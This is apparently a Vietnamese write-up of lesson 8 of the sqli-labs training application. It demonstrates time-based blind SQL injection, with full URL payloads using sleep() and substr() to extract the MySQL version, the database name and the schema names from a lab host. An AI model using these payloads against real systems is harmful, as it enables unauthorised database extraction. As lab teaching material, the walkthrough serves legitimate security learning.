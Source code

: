 # Những việc làm được với lesson-8
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. 

Sau khi đăng nhập vào lesson-8 

![](../images/lesson8/screen_10.png)

1. Yêu cầu của nó là nhập ID và ta thử nhập nó vào. và dự đoán cấu trúc của câu truy vấn.

![](../images/lesson8/screen.png)

Tương tự bài 7 ta không thể dùng `error-base` cho bài này. Vậy nên ta phải dùng một loại khác. Trước tiên ta tìm cấu trúc câu lệnh truy vấn 

Sau những lesson trước thì thấy rằng khi ký tự đặc biệt có lỗi mà thêm `--+` cuối cùng đúng thì nó là cấu trúc của URL. Ví dụ 

![](../images/lesson8/screen_1.png)

![](../images/lesson8/screen_2.png)

Vậy cấu trúc của nó là
```
?id=1' --+
```

2. Kiểm tra version. 
- Ở bài này chúng ta không thể `select` được dữ liệu mà cũng không thể  bắn ra lỗi được. Ta sẽ phải sử dụng Time-base để có thể tìm ra được version của DB 
```
192.168.80.225/sqli-labs/Less-8/?id=1' and if(substr((select @@version),1,1)='5',sleep(5),false) --+
```

![](../images/lesson8/screen_3.png)

Ta có câu lệnh ở đây là truy xuất và lấy 1 ký tự đầu tiên trong kết quả so sánh với 5. Và ký tự đầu tiên đúng nên nó đã dừng lại 5s

![](../images/lesson8/screen_4.png)

Còn ở dưới câu lệnh của nó sẽ là so sánh với ký tự khác nó sai và nó đã không dừng lại 5s. Vậy ta biết ký tự đầu tiên của phiên bản này 

```
192.168.80.225/sqli-labs/Less-8/?id=1' and if(substr((select @@version),1,3)='5.5',sleep(5.5),false) --+
```
![](../images/lesson8/screen_5.png)

Tương tự như thế ta có thể tìm được các ký tự tiếp theo của phiên bản bằng cách tăng số này lên. 

3. Tương tự như thế ta có thể kiểm tra được databases. 
```
192.168.80.225/sqli-labs/Less-8/?id=1' and if(substr((select database()),1,1)='s',sleep(5),false) --+
```

![](../images/lesson8/screen_6.png)

Tiếp tục tăng toán tử là ta có thể thấy được tên của DB

4. Show tất cả tên của các DB 
```
192.168.80.225/sqli-labs/Less-8/?id=1' and if(substr((select group_concat(SCHEMA_NAME) from information_schema.schemata),1,1)='i',sleep(5.5),false) --+
```

![](../images/lesson8/screen_7.png)

Ta có các DB được liệt kê cách nhau một dấu `,` tương tự các truy vấn select như bài 1 ta có thể thay thế vào select là ta có thể biết được toàn bộ DB này

